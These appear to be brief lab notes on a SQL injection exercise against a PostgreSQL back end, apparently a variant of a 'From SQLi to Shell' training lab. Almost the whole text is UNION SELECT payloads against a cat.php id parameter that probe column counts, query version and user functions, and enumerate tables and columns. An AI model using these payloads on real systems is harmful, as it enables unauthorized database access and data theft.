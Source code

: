 Same as FromSQLiToShell but PostgreSQL not MySQL

`/cat.php?id=1 UNION SELECT null,null,null,null`

`/cat.php?id=1 UNION SELECT 1,'a','b',2`

version(), current\_user, current\_database()

`column_name FROM information_schema.columns`

`tablename FROM pg_tables`

concat in PG with ||

`UNION SELECT null,table_name||':'||column_name,null,null FROM information_schema.columns`
